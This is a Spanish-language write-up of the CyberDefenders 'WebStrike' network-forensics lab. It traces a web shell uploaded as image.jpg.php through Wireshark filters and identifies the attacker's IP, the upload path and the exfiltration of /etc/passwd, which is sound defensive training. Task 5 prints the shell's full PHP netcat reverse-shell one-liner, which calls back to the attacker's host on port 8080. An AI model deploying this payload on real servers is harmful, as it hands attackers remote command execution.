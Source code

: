 ```yaml
---
title: WebStrike - CyberDefenders
published: 2025-02-16
description: 'En este laboratorio, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.'
image: '../../../assets/CyberDefenders/WebStrike/webstrike-banner.webp'
tags: [CyberDefenders, BlueTeam, SOC, Network Forensics]
category: 'WriteUp'
draft: false 
---
```


En este laboratorio de **[CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)**, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-1.png)

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-2.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-3.png)

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-1.png)

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-4.png)

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-2.png)

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-5.png)

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-3.png)

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-6.png)

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-4.png)

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-7.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-5.png)

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-8.png)

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-6.png)

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-cyberdefenders.png)